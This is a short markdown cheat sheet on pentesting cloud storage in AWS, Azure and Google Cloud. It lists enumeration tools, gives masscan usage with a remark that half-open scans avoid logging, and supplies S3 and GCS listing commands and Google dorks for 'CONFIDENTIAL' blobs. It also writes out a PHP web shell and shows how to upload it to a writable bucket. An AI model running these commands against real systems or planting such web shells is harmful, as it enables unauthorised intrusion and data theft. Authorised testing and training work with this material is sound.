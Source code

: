 # Cloud Pentesting    
Main Cloud platforms: Amazon Web Services, Microsoft Azure, Google Cloud. Most cloud providers have miminal logging by default.        
[Grey Hat Warfare](https://buckets.grayhatwarfare.com/): search public buckets       
Use masscan to scan a large IP range:      

    $ masscan 10.10.0.1/24 -p 22,25,80,443,3389            
    --rate 50000   #fastest scan    
    #Most devices won't log half open SYN scans (nmap -sS and masscan) or TLS scan to web ports              
## AWS     
AWS GuardDuty for security. No logging or versioning on by default.         
[AWS IP ranges](https://ip-ranges.amazon.aws/ip-ranges.json)         
[Pacu](https://github.com/RhinoSecurityLabs/pacu): AWS exploit framework      
[bucketfinder](https://github.com/FishermansEnemy/bucket_finder/tree/master): look for interesting files on Amazon S3 buckets.       
Access     
     
     CLI: using AWS access key and AWS secret key. Set as enviromental variables.     
     Web: management web portal access.      
Pen Testing on a web server:     

     check for web requests to s3 buckets at https://s3.amazonaws.com/{bucketname} or https://s3-{region}.amazonaws.com/{Org}           

Commands         

    https://aws.amazon.com/cli/   #AWS CLI    
   
    aws configure     #set up, can put temp in all values   
    aws s3 ls bucket.site.com    #list contents of a bucket    
    aws --endpoint=http://s3.site.com s3 ls      
    aws --endpoint=http://s3.site.com s3 ls s3://site.com   #list objects and common prefixes   
  
might be able to upload a php web shell      

    echo '<?php system($_GET["cmd"]); ?>' > shell.php   #make web shell file   
    aws --endpoint=http://s3.site.com s3 cp shell.php s3://site.com     #upload web shell     

Search for files with keywords in buckets using [bucket_finder](https://github.com/FishermansEnemy/bucket_finder):     

    bucket_finder.rb search_term --download         
AWS Lambda: can have vulns and be used to steal AWS keys via command injection.            
Denonia cryptominer malware targeted Lambda.     
### Resources      
https://www.hackthebox.com/blog/aws-pentesting-guide    
https://cloud.hacktricks.xyz/pentesting-cloud/aws-security     
    
## Azure    
Built in security with Azure Sentinel. Azure acts as a middleman between the AD network and user sign on - makes lots of traditional AD acts ineffective.         
Azure Blob: https://{account}.blob.core.windows.net/{container}     


### Enumerate Azure Blobs   
[Azure-CLI](https://learn.microsoft.com/en-us/cli/azure/install-azure-cli)     
[AZ-Blob-Attacker](https://github.com/VitthalS/Az-Blob-Attacker)    
[Basic Blob Finder](https://github.com/joswr1ght/basicblobfinder): search for Azure blobs       
[Microburst](https://github.com/NetSPI/MicroBurst): Scripts for pentesting Azure    

    basicblobfinder.py wordlist   #enum buckets       
Google Hacks:     

    site:*.blob.core.windows.net
    site:"blob.core.windows.net" and intext:"CONFIDENTIAL"
### Resources:    
https://www.inversecos.com/2022/01/how-to-detect-and-compromise-azure.html      

## Google Cloud   
GCP Cloud Armor for security. [List of Buckets by IPS](https://www.gstatic.com/ipranges/cloud.json)           
GCP: https://www.googleapis.com/storage/v1/b/{bucketname}      
[GCPBucketBrute](https://github.com/RhinoSecurityLabs/GCPBucketBrute): search for Google Storage Buckets and check accesses.     
Bucket permissions: listable (enum and read files), writeable (upload)       

    gcpbucketbrute.py -u -k search_org      
    gsutil ls gs://bucket       #list contents of a public bucket     
